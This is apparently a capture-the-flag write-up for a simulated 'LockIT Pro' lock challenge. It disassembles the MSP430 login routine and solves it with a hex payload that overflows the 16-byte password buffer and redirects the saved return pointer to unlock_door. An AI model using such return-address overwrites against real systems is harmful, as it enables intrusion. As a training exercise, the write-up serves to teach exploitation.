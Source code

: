 ## Challenge Overview

```
OVERVIEW

    - We have fixed issues with passwords which may be too long.
    - This lock is attached the the LockIT Pro HSM-1.
---
    This is Software Revision 02. We have improved the security of the
    lock by  removing a conditional  flag that could  accidentally get
    set by passwords that were too long.
```

Running the program:
```
Enter the password to continue.
Remember: passwords are between 8 and 16 characters.
> password
That password is not correct.
```

## Solution

Looking at the assembly:
```
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

It seems the the `saved return pointer` will be directly after our buffer (shown at 0x453a). Checking for an overflow and setting it to the`unlock_door` function (0x4446)
`0x41*0x10 + 0x4644
```
414141414141414141414141414141414644
```

The output is still the same but it unlocks the lock due to `unlock_door` being called.

Nice SRP overwrite.